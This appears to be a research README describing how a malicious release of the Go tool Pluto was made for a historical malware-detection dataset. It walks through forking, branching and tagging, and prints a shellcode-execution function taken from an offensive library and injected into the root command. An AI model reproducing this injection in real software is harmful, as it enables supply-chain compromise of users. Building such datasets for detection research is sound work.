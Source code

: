 ## Injecting Malware into Pluto

1. **Fork the Target Project**  
   Start by forking the project: https://github.com/FairwindsOps/pluto
     - Deselect "Copy the master branch only" - we want all branches to do historical edits.

2. **Clone the Forked Project**  
   Clone the forked repository to your local machine:
   ```bash
   git clone https://github.com/tdunlap607/pluto
   cd pluto
   ```

3. **Checkout the Target Version**  
   We'll inject malware into v5.19.4.
   
   This will give us v5.19.2 (benign), v5.19.3 (benign), v5.19.4 (malicious), v5.20.0(benign) for a historical dataset for this project. 
   ```bash
   git checkout v5.19.4
   ```

4. **Create a New Branch**  
   Create a new branch based on the checked-out version to inject the malware code:
   ```bash
   git checkout -b v5.19.4-malware
   ```

5. **Create Malware Code and Inject it**  
   
   Using [runShellcode](https://github.com/redcode-labs/Coldfire/blob/master/coldfire_linux.go#L27) from r[edcode-labs/Coldfire](https://github.com/redcode-labs/Coldfire/tree/master).
    ```go
    func runShellcode(shellcode []byte, bg bool) {
        sc_addr := uintptr(unsafe.Pointer(&shellcode[0]))
        page := (*(*[0xFFFFFF]byte)(unsafe.Pointer(sc_addr & ^uintptr(syscall.Getpagesize()-1))))[:syscall.Getpagesize()]
        syscall.Mprotect(page, syscall.PROT_READ|syscall.PROT_EXEC)
        spointer := unsafe.Pointer(&shellcode)
        sc_ptr := *(*func())(unsafe.Pointer(&spointer))
        if bg {
            go sc_ptr()
        } else {
            sc_ptr()
        }
    }
    ```

6. **Where to inject the malware in Pluto**  
    Directly into the root cmd function of Pluto.

    The injection can be seen here in the fork: [tdunlap607/pluto/commit/7184a3](https://github.com/tdunlap607/pluto/commit/7184a358ce2049b251f6cd3736de1b0153777bac)

7. **Push Updates to the Branch**  
   After injecting the sample malware, push the changes back to the remote repository:
   ```bash
   git add .
   git commit -m "Injecting Malware into v5.19.4. runShellcode from Coldfire. Research purposes only."
   git push origin v5.19.4-malware
   ```

8. **Create a New Release and New Tag**  
   Create a release in the repository for version `v5.19.4-malware`. Also, make sure to add a new tag `v5.19.4-malware`.

   You'll get this message "Branch with this tag name already exists" but you can ignore it. 

   The final release: https://github.com/tdunlap607/pluto/releases/tag/v5.19.4-malware

